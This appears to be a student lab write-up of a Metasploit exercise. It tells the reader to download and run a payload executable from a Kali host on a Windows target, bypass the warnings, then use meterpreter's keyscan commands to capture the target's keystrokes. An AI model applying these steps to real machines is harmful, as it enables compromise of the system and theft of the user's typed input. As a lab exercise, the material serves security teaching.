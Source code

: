 On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://10.0.2.15/dharunya.exe``` The file "dharunya.exe" downloads.

### Output

<img width="1170" height="873" alt="image" src="https://github.com/user-attachments/assets/ba81f91d-18d4-47a0-9c36-ea5f4d616149" />


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

<img width="935" height="744" alt="image" src="https://github.com/user-attachments/assets/bd509409-51af-43c7-b79f-f5f00622c785" />

The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name

<img width="388" height="59" alt="image" src="https://github.com/user-attachments/assets/5c539cbd-4376-4e73-9f45-0ebe51afc4fb" />

<img width="1167" height="874" alt="image" src="https://github.com/user-attachments/assets/01ebaf58-5b28-4e7e-83d5-86394b098770" />


keyscan_dump	Shows the keystrokes captured so far

<img width="576" height="223" alt="image" src="https://github.com/user-attachments/assets/a9cef6ad-4c30-4c8f-9ef7-d2467f501492" />


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
